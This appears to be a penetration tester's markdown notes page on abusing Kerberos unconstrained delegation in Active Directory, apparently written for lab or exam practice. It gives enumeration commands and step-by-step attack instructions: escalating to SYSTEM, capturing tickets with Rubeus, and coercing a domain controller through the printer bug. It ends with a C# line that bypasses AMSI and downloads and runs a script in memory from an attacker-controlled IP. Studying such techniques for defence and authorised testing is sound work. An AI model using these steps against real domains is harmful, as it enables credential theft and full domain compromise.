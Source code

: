 # Unconstrained Delegation

## What it is

Ref: (https://www.guidepointsecurity.com/blog/delegating-like-a-boss-abusing-kerberos-delegation-in-active-directory/)

- Happens in the cases where there is a frontend service host (Host A) and a backend service host (Host B)
- When a user wants to access a service, a TGS specific to that service and that user is issued by the KDC
- But the user cant use the TGS for the frontend service to authenticate to the backend service
- To solve this problem, the frontend service is configured for unconstrained delegation which designates Host A as a host that can forward TGS and authenticate on behalf of the user to ANY SERVICE
- Typically, services may be misconfigured with this so worth checking!

## How to check if we can do this

1) Via Bloodhound (CoerceToTGT)
2) Via Powerview (Any non-DC host with the TRUSTED_FOR_DELEGATION in its UAC attribute)
```powershell
Get-DomainComputer -Unconstrained -Properties useraccountcontrol.dnshostname | format-list
```

## Exploiting it

1) After identifying the host, gain local admin access on that host
2) Using meterpreter or potatos or print spooler, elevate yourself to NT Authority/SYSTEM
3) open Administrator cmd prompt and execute Rubeus in monitoring mode
```powershell
.\Rubeus.exe monitor /interval:5 /nowrap
```
4) Use any domain credential that you have to log in to a host and trigger the printer bug through the following:

a) Via SpoolSample.exe


b) Via Invoke-Spoolsample

- Grab the script from here (https://github.com/S3cur3Th1sSh1t/PowerSharpPack/blob/master/PowerSharpBinaries/Invoke-Spoolsample.ps1)

- Use the Custom Runspace to bypass AMSI, download the script in memory from your apache2 server, and then execute it with the following commands (within the runspace)

First Arg to -Command is the DC hostname, Second Arg is the hostname of where your Rubeus is being run on (the unconstrained delegation host)

```csharp
String cmd2 = "(New-Object System.Net.WebClient).DownloadString('http://192.168.45.178/spoolsample.txt') | IEX; Invoke-SpoolSample -Command 'dc03.infinity.com web05.infinity.com'"; 
```



